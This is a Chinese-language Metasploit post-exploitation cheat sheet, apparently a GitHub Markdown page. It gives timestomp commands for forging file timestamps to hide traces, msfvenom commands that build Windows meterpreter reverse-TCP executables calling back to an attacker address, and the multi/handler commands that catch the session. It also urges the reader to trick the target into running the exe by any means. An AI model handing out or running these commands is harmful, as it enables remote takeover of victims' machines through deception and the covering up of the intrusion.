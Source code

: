 ## timestomp伪造时间戳

```
timestomp C:// -h   #查看帮助
```
```
timestomp -v C://2.txt   #查看时间戳
```
```
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
```




# 获取Meterpreter会话

```
https://uknowsec.cn/posts/uncategorized/%E5%90%8E%E6%B8%97%E9%80%8F%E4%B9%8Bmeterpreter%E4%BD%BF%E7%94%A8%E6%94%BB%E7%95%A5.html
```

##  使用msfvenom生成payload

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe

msfvenom -p windows/x32/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /jojo_32.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=接受ip地址 lport=接收端口 -f exe -o rabbit.exe
```


```
 use exploit/multi/handler
```
```
set payload windows/x64/meterpreter_reverse_tcp 
```
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 6565          // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
```
 run
```
然后获得会话

## 你只要想方设法让他点击到这个exe即可 接下来交给老爹!
 
将生成的exe文件或者其它类型的payload文件在目标上执行，就可以获得一个meterpreter会话，之后就可以使用msf开展后渗透测试的相关工作。

![](img/2.png)

